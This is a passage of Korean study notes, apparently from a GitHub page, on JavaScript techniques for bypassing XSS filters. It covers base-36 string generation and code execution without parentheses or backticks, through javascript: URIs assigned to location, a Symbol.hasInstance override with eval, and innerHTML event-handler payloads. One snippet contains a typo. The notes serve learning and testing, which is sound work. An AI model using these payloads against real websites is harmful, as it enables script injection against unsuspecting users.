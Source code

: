     - `history.toString()` : `"[object History]"` 문자열 반환
    - `URL.toString()` : `"function URL () { [native code] }"` 문자열 반환

4. 숫자 객체의 진법 변환
	
    10진수 숫자를 36진수로 변경하여 ASCII 영어 소문자 범위를 모두 생성할 수 있다. 이때, `E4X 연산자 ("..")`가 존재하는데, 주로 점 두개를 쓰거나 소수점으로 인식되지 않도록 공백과 점을 조합해 사용할 수 있다.
    
    ```javascript
	var foo = 29234652..toString(36); // "hello"
	var bar = 29234652 .toString(36); // "hello"
	```

<br>
    
### 함수 호출

일반적인 자바스크립트의 함수 호출 방법

```javascript
alert(1); // Parentheses
alert`1`; // Tagged Templates
```

소괄호와 백틱 문자가 모두 필터링 되어있는 경우, 다음과 같은 방법들로 우회할 수 있다.

1. **javascript 스키마**를 이용한 location 변경

	`javascript:` 스키마를 이용해 `location` 객체를 변조하는 방식으로 자바스크립트 코드 실행.
    
    ```javascript
	location = "javascript:alert\x281\x29;";
	location.href = "javascript:alert\u00281\u0029;";
	location['href'] = "javascript:alert\0501\051;";
    ```

2. **Symbol.hasInstance** 오버라이딩
	
	ECMAScript 6에 추가된 Symbol을 속성 명칭으로 사용할 수 있다. `0 instanceof C`를 연산할 때, `C`에 `Symbol.hasInstance` 속성에 함수가 있을 경우 메소드로 호출하여 `instanceof` 연산자의 결과 값으로 사용하게 된다. `instanceof`를 연산하게 되면 실제 인스턴스 체크 대신 원하는 함수를 메소드로 호출되도록 할 수 있다.
    
    ```javascript
	"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
	Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
	```

3. **document.body.innerHTML** 추가

	`document.body.innerHTML`에 코드를 추가할 경우 새로운 HTML 코드가 문서에 추가되고, 코드를 실행할 수 있다. 이때, `innerHTML`로 HTML 코드를 실행할 때에는 보안 상 `<script>` 태그를 삽입해도 실행되지 않는다. 따라서 이벤트 핸들러를 이용해 코드를 실행해야 한다.
    
    ```javascript
	document.body.innerHTML += "<img src=x: onerror=alert&#40;1&#41;>";
	documnet.body.innerHTML += "<body src=x: onload=alert&#40;1&#41;>";
	```

<br>
